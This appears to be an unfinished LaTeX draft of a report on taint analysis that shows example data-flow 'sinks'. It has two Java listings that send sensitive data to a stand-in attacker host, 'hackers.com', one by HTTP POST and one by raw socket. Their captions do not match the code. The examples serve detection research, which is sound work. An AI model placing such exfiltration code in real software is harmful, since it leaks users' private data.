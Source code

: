 \documentclass[12pt,twoside,notitlepage]{report}
\begin{document}
\subsection{Sinks}

\subsubsection{API Calls}

\begin{figure}[h]
	\centering
	\begin{tabular}{c}
	\begin{lstlisting}
String data = getSensitiveData();
List<NameValuePair> pairs = Arrays.asList(new BasicNameValuePair("postedData", data));
HttpEntity postData = new UrlEncodedFormEntity(pairs);
HttpPost post = new HttpPost("http://www.hackers.com/");
post.setEntity(postData);
DefaultHttpClient client = new DefaultHttpClient();
client.execute(post); // check this	
	\end{lstlisting}
	\end{tabular}
	\begin{lstlisting}[caption={Accessing browser bookmarks},
	                   label={listing:Sink_ApacheHTTPClient}]
	\end{lstlisting}
\end{figure}

\subsubsection{Writer Interface}

\begin{figure}[h]
	\centering
	\begin{tabular}{c}
	\begin{lstlisting}
String data = getSensitiveData();
Socket s = new Socket("hackers.com", 1234); // TAINT_SINK_NET
PrintWriter outNet = new PrintWriter(s.getOutputStream(), true);
outNet.println(data);
outNet.close();
	\end{lstlisting}
	\end{tabular}
	\begin{lstlisting}[caption={Accessing browser bookmarks},
	                   label={listing:Sink_Socket}]
	\end{lstlisting}
\end{figure}

\section{Requirements Analysis}
look at AdCache
\end{document}
